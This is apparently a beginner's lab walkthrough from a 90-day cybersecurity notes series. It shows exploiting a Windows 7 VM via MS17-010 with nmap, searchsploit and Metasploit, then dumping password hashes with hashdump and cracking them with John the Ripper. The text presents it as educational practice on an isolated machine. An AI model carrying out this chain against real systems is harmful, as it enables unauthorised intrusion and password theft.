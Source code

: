 # Day-12 
## Today's we will hack into a Windows machine, For this we are using a windows 7 machine I have used a ova file with that we will gain the access or hack into the system 

### Steps & procdure 
#### 1. Recon 
For identifying the system we need both the machine to be turned on and then and also need to connect to both of the machine on same network then only it is possible to gain access of the windows machine. For the link of the ova file just message me on my [Instagram](https://www.instagram.com/heartking_2324/). 
The command which we used to find the machine through the same network is called the arp-scan. arp-scan is a command-line tool that uses the ARP protocol to discover and fingerprint IP hosts on the local network.

```
 sudo apt-get update
 sudo apt-get upgrade -y
 sudo arp-scan -l -I eth0  
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/arp-scan.png?raw=true)
After this we need to identify the machines ip address. So we find with the nmap and in that we identify with the Operating system.

``` nmap -O ip-add ```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/nmap-scan.png?raw=true)
When we find the ip which has windows 7 or somethng related to the microsoft service is our machine 

#### 2. Finding Vulnerability 
Now we have go the ip address of the machine we will target it and we look for any exploit and vulneriablility in the system 

``` namp -Pn -sV --script vuln -oN vuln-window.txt ip-adress ```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/nmap-script.png?raw=true)

The high risk vulneriability we have ms17-010 we search that on the searchexploit 

#### 3. Get deatil on the exploit 

``` searchexploit ms17-010 ```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/searchexploit.png?raw=true)
The first one which is given with the meta exploit is the method which we are going to use for the exploit the vulnerable machine.

#### 4. METAEXPLOIT 
To access the metaexploit we type the following command 
``` msfconsole ```
Now we search the exploit in the msfconsole 
``` search ms17-010 ```
There is only one single exploit in the msfconsole so just type use 0 
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/search-ms17-010.png?raw=true)
``` show options ```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/show-options.png?raw=true)
#### 5. Configure the msfconsole 
Their we setup the ip address and all the necessary options 
```
 set RHOST (windows ip-add)
 set LHOST (kali ip-add)
 show options
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-12/RHOST-LHOST.png?raw=true)

#### 6. EXPLOIT! 
Just enter exploit and then you will have successfully gained the access of the windows machine. 
Now you can just use ```hashdump``` command to get all the hash of the password which the windows machine. 
After getting all the has the user's has and then just open new tab and ```nano hash-windows``` 
We will use a tool call John The Ripper with the command ```john hash-windows```
Boom! you have the password of the user now the that password from the windows machine 
We then do a   ``` screenshare ``` to get the complete scrren visible on your device.
you can search more options to do this just google ``` after exploiting windows machine on metexploit things to do ```

## Conclusion 
It is very important to know that this was done on ova file which is not connected to any real person its just created for educational purpose. If your attacking a real machine just know that their will be consequence on you if you get caught. 

## Happy hacking! 
